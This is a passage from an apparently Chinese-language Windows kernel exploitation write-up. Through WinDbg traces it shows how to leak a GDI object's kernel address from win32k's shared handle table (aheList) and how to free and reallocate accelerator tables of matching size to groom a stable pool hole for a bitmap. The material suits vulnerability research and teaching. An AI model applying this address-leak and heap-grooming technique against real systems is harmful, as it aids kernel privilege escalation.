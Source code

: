 ```
kd&gt; dd 7ffd43cdc680  //查看地址值的内容
00007ffd`43cdc680  01360700 00000000 011e0000 00000000
kd&gt; dt win32k!tagSHAREDINFO  //由于调试时tagSHAREDINFO不透明，这里只能                                  
//从网上拷贝一个方便说明
     +0x000 psi                    :  tagSERVERINFO
+0x008 aheList                :  _HANDLEENTRY
kd&gt; dq 7ffd43cdc680+0x8 L1 //+0x8位置的HANDLEENTRY就是我们要的表
00007ffd`43cdc688  00000000`011e0000
```

这样就能得到句柄实际内核地址的表了，也就是指向GDI对象的表，这里就要计算对应的偏移了，计算方法其实和之前GdiSharedHandleTable很像，那个算对应GDICELL64地址的计算方法是：

GdiSharedHandleTable+(handle &amp; 0xffff)*sizeof(GDICELL64)

这里就用_HANDLETABLE_ENTRY + (Accel &amp; 0xffff)*sizeof（Accel）算出地址，这里Accel的值是：

```
kd&gt; r eax
eax=1700b9
kd&gt; p
0033:00007ff6`956112d1 488d1449   lea     rdx,[rcx+rcx*2]//计算handle的值
kd&gt; p
0033:00007ff6`956112d5 488bc8          mov     rcx,rax
kd&gt; r rdx
rdx=000000000000022b// handle的值为22b
kd&gt; dd 11e0000+22b*8 L1 // 11e0000是刚才获得的HANDLENTRY，计算出偏移
 // 指向的就是GDI对象
00000000`011e1158  81be7000 ffffbad3
```

 紧接着调用DestroyAcceleratorTable释放这个加速键表，可以看到对应句柄内核指针的值也被释放了。注意这里申请的Accelerator Table的大小是700，同样如果制造出一个稳定的hole之后，申请bitmap的大小也是700。

```
kd&gt; p
0033:00007ff6`956112d8 488b5cd500      mov     rbx,qword ptr [rbp+rdx*8]
kd&gt; p
0033:00007ff6`956112dd ff15451f0000    call    qword ptr [00007ff6`95613228]
kd&gt; p
0033:00007ff6`956112e3 babc020000      mov     edx,2BCh
kd&gt; dd 11e0000+22b*8// 对应索引的位置GDI对象被释放
00000000`011e1158  0000042f 00000000
```

可以看到，对应位置存放的GDI对象也释放掉了，再次通过Create申请Accelerator Table。 

```
0033:00007ff6`956112eb ff152f1f0000    call    qword ptr [00007ff6`95613220]
kd&gt; p//返回值eax
0033:00007ff6`956112f1 0fb7c8          movzx   ecx,ax
kd&gt; r rax
rax=00000000001800b9
kd&gt; p
0033:00007ff6`956112f4 488d1449        lea     rdx,[rcx+rcx*2]
kd&gt; p
0033:00007ff6`956112f8 488bc8          mov     rcx,rax
kd&gt; r rdx//计算获得handle，和上一次申请的handle值一样
rdx=000000000000022b
kd&gt; dd 11e0000+22b*8//查看pkernelAddress
00000000`011e1158  81be7000 ffffbad3
kd&gt; dd ffffbad381be7000 l90//对应位置存放的值，+0x0位置就是phead
                            //GdiSharedHandleTable被fix，可以用这个方法
ffffbad3`81be7000  001800b9 00000000 00000000 00000000
ffffbad3`81be7010  00000000 00000000 000002bc 00000000
```
